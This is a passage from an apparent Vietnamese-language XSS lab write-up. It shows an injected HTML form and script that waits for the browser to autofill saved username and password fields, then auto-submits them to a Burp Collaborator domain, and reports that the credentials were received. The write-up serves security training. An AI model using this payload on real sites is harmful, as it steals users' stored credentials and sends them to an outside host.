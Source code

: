 Tạo form nhập `username` và `password` và dùng JS để tự động submit sau 3 giây (thời gian đợi trình duyệt tự nhập thông tin)

```html
<form action="https://uomwcd9zn6ju20gntil47enuul0co1.burpcollaborator.net" id="xss-form">
    <input name=password type=password value="password">
    <input name=username type=text value="username">
</form>
<script>
    setTimeout(function(){document.getElementById("xss-form").submit()}, 3000);
</script>
```

URL encode và gửi payload

![Untitled](writeup_media/Untitled%2040.png)

Nhận được payload có `username` và `password`

![Untitled](writeup_media/Untitled%2041.png)
